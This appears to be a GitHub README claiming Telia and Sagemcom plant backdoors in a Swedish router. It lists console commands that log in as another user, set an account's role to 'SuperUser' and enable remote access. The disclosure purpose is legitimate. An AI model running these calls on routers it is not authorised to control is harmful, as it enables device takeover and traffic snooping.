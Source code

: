 #### Below is a preview for how it will look when you have successfully hacked the router.

![Screenshot](https://nr1.nu/sagem/telia-telnet.gif)

Alright, after few weeks with this "most powerful router" from Telia i finally managed to find a way to get root access. For all who does not like this kind of exposing please remember it's not me who adding backdoors to all swedes that using this router(~1 million). This repo have been made for expose Telia and Sagemcom's backdoors **again**.

###### As on earlier versions from Telia they use backdoors without our knowledge for be able to telnet/ssh into our network wich means they can sniff **EVERYTHING** on your network.

![Screenshot](https://nr1.nu/sagem/sagem-backdoor.png)

###### And it's not only Telia that got backdoors on our device, also sagemcom that can use our network and sniff traffic, here is a proof for how to find info about all settings they have configured:

![Screenshot](https://nr1.nu/sagem/sagem-owned2.png)

###### Stop/Start LXC From TelialXC Rootfs:

    lxc-stop -n teliaLxc -F
    lxc-start -n teliaLxc -F

###### UCI Settings:

    uci show network
    uci show dhcp
    uci show system

###### Login as another user:

    var x = $.xmo;
    $.xmo.init();
    $.xmo.login("username", "password");
    $.dosomethingherewithoutloginongui
    
###### Route INFO:

    $.xmo.getValuesTree("Device/Routing/RouteInformation/Enable");
    $.xmo.setValuesTree("true", "Device/Routing/RouteInformation/Enable");

###### Enable ADVANCED Mode:

    $.xmo.getValuesTree("Device/UserInterface/AdvancedMode");
    $.xmo.setValuesTree("true", "Device/UserInterface/AdvancedMode");

###### Set user settings for Administrator/admin/internal:

    $.xmo.getValuesTree("Device/UserAccounts/Users/User[@uid='1']");
    $.xmo.getValuesTree("Device/UserAccounts/Users/User[@uid='1']/Role");
    $.xmo.setValuesTree("SuperUser", "Device/UserAccounts/Users/User[@uid='1']/Role");
    $.xmo.setValuesTree("true", "Device/UserAccounts/Users/User[@uid='1']/CurrentlyRemoteAccess");
    $.xmo.setValuesTree("wuseman@nr1.nu", "Device/UserAccounts/Users/User[@uid='1']/Email");
    $.xmo.setValuesTree("Sweden", "Device/UserAccounts/Users/User[@uid='1']/Country");
    $.xmo.setValuesTree("wuseman", "Device/UserAccounts/Users/User[@uid='1']/Lastname");
    $.xmo.setValuesTree("true", "Device/UserAccounts/Users/User[@uid='1']/OwnPass");
    $.xmo.getValuesTree("Device/UserAccounts/Users/User[@uid='1']/RemoteAccesses/RemoteAccess[@uid='1']");
    $.xmo.getValuesTree("Device/UserAccounts/Users/User[@uid='2']/RemoteAccesses/RemoteAccess[@uid='1']");
    $.xmo.getValuesTree("Device/UserAccounts/Users/User[@uid='3']/RemoteAccesses/RemoteAccess[@uid='1']");